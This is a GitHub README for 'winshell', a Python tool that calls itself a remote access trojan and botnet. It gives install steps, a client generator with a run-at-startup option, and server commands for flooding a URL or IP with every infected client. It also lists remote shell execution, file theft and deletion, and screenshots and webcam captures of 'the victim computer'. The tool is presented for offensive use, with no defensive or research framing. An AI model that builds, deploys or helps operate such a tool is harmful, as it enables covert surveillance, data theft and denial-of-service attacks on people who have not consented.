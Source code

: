 [![Supported Python versions](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/download/releases/2.7/)
# winshell

**winshell is a python opensource RAT and Botnet**

### Installation
 - ####     Windows
   - `git clone https://github.com/Z4RK/winshell.git`
   - `pip install -r requierements.txt`
 - #### Linux
   - `git clone https://github.com/Z4RK/winshell.git`
   - `./install.sh`
   - `pip install -r requierements.txt`

### Features
 - The client can be compiled into an executable file
 - Supports multi-clients
 - The server can be run on Linux / Windows
 - The program can perform denial of service attacks with all clients connected to the server
 - Can execute all shell commands
 - Can upload and download file
 - Can run the client at startup
 - Can browse files & more...
 
### Usage
 - #### Generate the client
   - `python generate.py --host <server hostname> --port <port to use> [--out <output name>|--addstartup]`
 - #### Server commands
   - **Commands in the winshell menu**
     - `list client` list all clients connected on the server
     - `interact <client id>` start a session with a client
     - `flood <url/ip>` do a denial of service attacks with all clients connected
     - `quit` quit winshell
   - **Commands with a remote session**
     - `help` show this message
     - `upload <arg>` upload a file
     - `download <arg>` download a file
     - `cd <arg>` change directory
     - `ls` list files in current directory
     - `rm <arg>` remove a file
     - `rmdir <arg>` remove a directory
     - `screenshot` take a screenshot from the victim computer
     - `webcam_snap` taka a webcam picture form the victim computer
     - `getpid` get the current process id
     - `ps` list running process
     - `search <arg>` filter running process by name
     - `currentporcess` get the current process run on the victim computer
     - `force <arg>` do a shell command with an output (ipconfig, dir)
     - `force2 <arg>` do a shell command without an output(mkdir, start...)
